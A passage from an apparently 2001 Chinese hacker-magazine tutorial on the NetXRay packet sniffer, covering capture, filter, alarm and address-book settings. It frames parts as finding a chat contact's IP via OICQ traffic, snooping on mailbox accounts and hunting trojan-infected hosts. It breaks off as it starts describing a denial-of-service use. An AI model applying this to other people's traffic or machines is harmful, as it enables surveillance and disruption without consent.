这时你应该到菜单 Capture 点击 Start（或者点击图 5-1 中工具栏的开始按钮），这时候发个信息给你要查的人了。发送了吗？然后选择 Capture 中的 End and View（或者点击图 5-1 中工具栏的按钮）。这时又弹出了一个窗口，窗口的底部有 5 个选项，你选第二个“Matrix”试试（如图 5-3）！



图 5-3

特别注意：和别人的 IP 连线应该是浅绿色的。

在 NetXRay 里有一个 Dashboard 的图表（如图 5-4），



图 5-4

它是一个性能量测器，可提供分组获取和译码的功能，它还提供了图形可以确切地指出在你的网络中哪里正出现严重的业务繁忙。其实这里还可以看到更具体的部分，但是在广域网中这个不会有很大作用的，像 Detail 的部分就是更详细的资料了，这里就不多说了。当然啦，你也可以利用这一点去观察别的机器的业务情况。

你可以在 Dashboard 图表上点击鼠标右键，选择设置开始，就会出现一个如下的对话框了（如图 5-5），默认是 General 项。在这个对话框中的 Ask Save For 之中你可以按照默认或者根据你自己的需要来设置。而 Decode 选择项你最好是两个都选。更新频率 Update Frequency 也要看你的要求了，用鼠标点数字部分，如要多选就多拉，建议全选。



图 5-5

再来看看 Threshold 项（如图 5-6）：



图 5-6

这个地方是要让你选择你所捕获的对方机器的可进入点。一般情况你可根据你的所需来选择，不明白那就全选。Name 不用我说了吧，当然是代表这个进入点的表述名了。其实这里的选择大多时间都是比较关键的，因为往往截获的时候所进入对方机器的节点选择不合适的话可能会一无所获。而选择过多将会导致网络速度变慢，也将会在截获的信息中夹杂很多无用信息，浪费资源。而 High Threshold 就是所对应的表述名的极限开口端，也就是说是从这里进入来截获数据时最高所能得到的定义量度，一般情况下你无须理会这个，让它默认。往下接着看它的 Alarm 项（如图 5-7）：



图 5-7

声音和它的警告声音你自己设定了，而启动新警告则需要你细心地来设置。Define Severity 无须理会，默认就行了。在 Define Actions 部分（这可是一个保护自己信箱安全和破解其他人信箱账号的重要环节），点击 Define Actions 就会出现（如图 5-8）的界面，



图 5-8

在这里选择 Add 会出现如图 5-9 的对话框。



图 5-9

如果已有记录，你可对其进行编辑、删除。这就是常被人说起的用 NetXRay 来查信箱密码，其实非也。先看了，首先在名称那里随便写上自己喜欢的名，然后选择 SMTP 邮件。如果

你在里面没有设置的话就自己先设置一个信箱用来收留 NetXRay 所能给你的警告信息的信箱了。写上名称点击确定，得，出来了（如图 5-10）



管它呢，先按要求填上再说（你可别瞎添哦，要不然就会把很多你捕获到的信息添加到您的信箱里去），这个就说到这里了。

这个界面的 Protocols 部分如图 5-11 所示：



这个图里就是关于定制 TCP 协议分布的设定。在 NetXRay 中，有默认的协议端口和服务名称，但是你也可以自行设置。很多时候有的主机为了安全而升高了它的服务端口。像 FTP 默认是 21，但你不能完全的认为只有 21 是可以接受 FTP 的 TCP 协议，这个在 UNIX 和 NT 中都是可以自行设置服务端口号的。所以在 NetXRay 中已经将很多服务以及端口和候选端口都列入了表内，但是它并不是死的，名字和端口编号作为你希望的监控分隔项列在图表中，你可以进入到 Port1 中为其命名并指定监控的端口号，同时可以写进至少三个端口号，如果你只想写一个就在其他的端口号内写入 0。

Workspace 项就是让你选择你监控的时候都要哪些监控图表出现在界面之中好了。

再看最重要的界面了——那就是它的监听界面（图 5-12）：

# 黑客防线精华本 2001



图 5-12

在图中的第一栏，显示的是所监控的 202.96.170.165 与 192.168.0.13 主机间的应用层的协议以及对监控之后所得到的数据包的总结以及有效数据包的长度和整个数据包的长度、确认序列号的信息。上图中是我对 OICQ 的监控，所以它显示的端口是 8000 和 4000。

而第二栏是对应 1 中的灰色区域里的数据包内容从协议上进行的分析。这个图中所显示的是 1 中灰色部分的 IP 和 TCP 层的解释，从这里可以看出这个捕获到的数据包的组成以及数据包使用的端口、状态、时间等许多信息，用鼠标拉动滚动条可以看到更详细的对以太帧和应用层的解释。

第三栏是这次捕获的数据包的内容，能看到的是十六进制和 ASCII 两种显示形式。左边是用十六进制表示的包中每一个数据的位置，中间的部分是用十六进制表示的被截获的数据包中的内容，右边看到的则是 ASCII 形式。如果包中传输的是明文的话那么你就可以直接阅读内容了。哈哈。那 OICQ 不是没有安全感了？可惜不可能。因为 OICQ 信息是经过加密算法之后的了。也就是说用 NetXRay 来截获别人 OICQ 的对话内容，那么你就先得拿到 OICQ 的算法才可以的。

继续再往下看（如图 5-13），



图 5-13

在 NetXRay 的文件条目上选择就可以得到如上界面，因为是在 Internet 中，所以选择 IP 显示。图 5-13 中可以看到你的机器与远程多个机器间的通信情况，粗细线条则表示两台主机间信息的量，不用我多说当然是粗的代表正在频繁的通信而细的相反。把鼠标放在线条上你就可以看到与你通信的主机的数据大小（用 K 来表示的）。这个也是用 NetXRay

查询 OICQ 的 IP 的一种方式。只要发个信息给对方，这里马上就会显示出对方与你的 IP 连接了。这种显示因为是在广域网内，所以显示的是一对一的通信。而在局域网内显示时将会更清楚地描述出网内多个主机间的通信情况，可以看到哪台机器正和哪台机器正在通信，并且可以清楚地看到哪台机器正在发出信息（发出信息的时候线条将会闪动），还可以看到网内是否有盗用 IP 可能。

如果说用 NetXRay 来查找网络中正在使用的计算机的话我想是最方便不过的了。让我们来看看这个界面（图 5-14），



图 5-14

在 NetXRay 的文件条目上选就会出现如下的界面了，这是一个地址簿。你可以在这里添加你想要的主机 IP，方便你以后的使用，或者做临时截获所用。在这里你可以自动搜索（像放大镜的那个图表就是）一段甚至很大段网内正在使用着的主机，速度极其快，并且可以根据你的设置专门找有 NetBIOS 的主机或者 A 类地址。如果说是可以加多个端口的话，我想拿它来搜索中木马的机器那绝对是让你乐得不知所措。在这里你可以点右键选择更多的设置或者修改远程地址中的数据。

在广域网内，如果你想捕获的时候因为与你所连接的 IP 较多，这样可能会让你感到凌乱不堪，那么你就得对要监控的内容设置过滤，这样可以减少信息量，也免得那些无用的信息留着。如何设置呢？点击图 5-1 中工具栏的按钮就可看到（如图 5-15）



图 5-15

的界面：这个图中显示的是 NetXRay 设置过滤条件的对话框。过滤条件可以用逻辑关系，

比如像 AND、OR、NOT 等组合来设置。在这里可以设置的过滤条件有 IP 地址或者物理地址（一般我们说的都是在 Internet 之中，使用的是 TCP/IP 协议，所以选择 IP 地址是比较合适的）、数据包、协议等。好，那就一下下来设置看看吧。

- 第一、地址类型，别考虑了，选择 IP 了，Hardware 就不说了。选择模式，这里就要多几句了。如果选 Include，其意义就是指 NetXRay 在捕获的时候就会只对你在 Station1 中和 Station2 中所列的节点包进行捕获。选择 Exclude 则恰恰相反。也就是说它在捕获的时候会过滤掉 Station1 和 Station2 中所列的地址数据包的。
- 第二、在 Station1 和 Station2 以及 DIR 的设置中，你可以指定地址对，就像上图中我所选的是 192.168.0.6，而我要对它截获的是与它连接的所有主机，也就是说这个 Any 代表的是任何主机的意思。至于 Dir，则是要选择你要捕获的目标主机与其连接主机间的信息流向，我选的是互流，因为要截获的是与 192.168.0.6 所连接的所有主机与它的信息数据，不管是 Any 发给 192.168.0.6 还是 192.168.0.6 发给 Any 的。在这里可以设置多个地址对的，只要你不觉得乱就行。
- 第三、在已知地址的部分，你可以看到有三个选择，Any 的意义前面已经说过了，这里就不用再提它了。Broadcast/Multicast 指的是广播和多点传送的固定位置，点击它会出现很多固定的位置供你选择。而至于接着下面的 Address Book 就是地址簿的意思，在图 5-14 中已经说过了。在最右面的 Settings For 就是你地址簿内所列及的了。

好了，接着再看它过滤设置的数据样式（Data Pattern）的设定了。如图 5-16



图 5-16

在数据样式（Data Pattern），点击 Toggle AND/OR，你就可以对 AND 和 OR 间进行样式的切换（其实这种逻辑组合跟所有其他的逻辑关系的原则是一样的），对于高级使用者来说，可以通过添加样式来选择自己更喜欢的形式，就请你自己试试了。

再下来就是对提前过滤（Advanced Filter）部分进行设置，这是比较重要的一个角色。图 5-17：



图 5-17：

从图中可以看到，当时在测试的时候要截获的是 IP、LAT、APOLLO、NetBUEI（这个图中未显示它，是在底下被遮挡了）多个包（其实在文件名称为 dd 中，所要截获的对象是 OICQ 的，所以我选择这四个最实在的），当然，你也可以根据你的需要选择其他的设定，比如说 FTP、Telnet 等等，但是在广域网里这些截获到的可利用数据是不太可能的。继续我的话题，当你选择 IP 之后，点击它就会出现如图 5-18 所示这个场景，



图 5-18

这说明可以根据数据包使用的像图中所显示的协议进行过滤，这样的话就不至于把那些 ICMP 或者 IGMP 的数据截获过来，我想这些对你来说不会有用的吧，没用怎么办？那当然是过滤掉它们啦。免得你截获的对象被人炸连你也涉及进去了，哈哈...... 这是开玩笑了。其实我一直都在提倡着学习网络知识先从基础学起，那么 TCP/IP 协议就是当然要看的啦，不然你根本不会明白我在说什么，更别提在这里设置了。

在信息包尺寸 Packet Size 部分，默认就可以，当然你也可以根据你的需要来设置信息包的长度、信息包里数据的位置（起始字节位置和结束字节位置）以及显示为十六进制或 ASCII 样式等。在 NetXRay 上你还可以对信息数据包的大小设置一些像小于、等于、大于等逻辑关系。

继续往下走，就走到了缓冲区的设置（Buffer）了。这里就是让你设定 NetXRay 在截获的时候要选择的一些问题。好了，看图——说话（图 5-19）



图 5-19

在这里的缓冲区大小 Buffer Size 和缓冲区满 When buffer is full 的部位，是让你设定你要截获多少个信息数据包之后停止截获的，如要截获的是 OICQ 的信息，相对来说比较小，所以就可以不设置。当然了，你可以根据你的所需来自己设定了。捕获缓冲区（Capture buffer）部分，你可以将文件选择要保存的路径，文件名可自己设定。而信息包尺寸 Packet Size 这里你可要注意一下了，你可以为它来设定大小，自己试试好了。

在 NetXRay 里还可以截获以太网帧及其中所含的数据，你可以在选项 Capture/view... 中选这个项目。这个项目分两个图层，上面的窗口是帧缓存器，它可以表示每个捕获的以太网帧。如果你选到一帧，就可以在下面的两个窗口观察它的内容，但是是原始的数据及译码信息。你可以借助 Decode 阅读数据，好像有点类似于读 OSI 协议一样，你可以从数据链路层到 IP，再到 UDP（传输层），最终到 DNS。但是该分组不会携带用户数据的，只是停留在会话框。好了，现在我们来看它的最突出的界面——监控：（图 5-20）点击 NetXRay 的文件条目里的就可以得到图 5-20 这个界面了，



图 5-20

亦即是图 5-2 的 start 界面。现在你看到的是已经启动截获的 Capture 的界面，在这个界面里要开始启动截获首先要来设置它的截获条件。怎么设置？哈哈，就是上面你所看到的那些了。这反着来说的，因为只有这样才能更加清楚地认识 NetXRay 的。图 5-20 中，上面有停止查看等项，你认为你已经截获到足够你所需要的信息包了，那就点击它，点击之后就是上面图 5-3 中的......

其实很多时候，NetXRay 并非你想像中的那么复杂，只要你经常地打开它来测试，时间长了你就会慢慢地很熟练地用它的。话说到这里本该就结束了，但是利用 NetXRay 的信息包发送的功能还可以作其他用途，在这里简单提一下，具体的还要你自己去摸索了。

利用 NetXRay 对远程机器的攻击，使其目标机器网速及系统变慢而导致死机。

在 NetXRay 中有一个界面（如图 5-21），

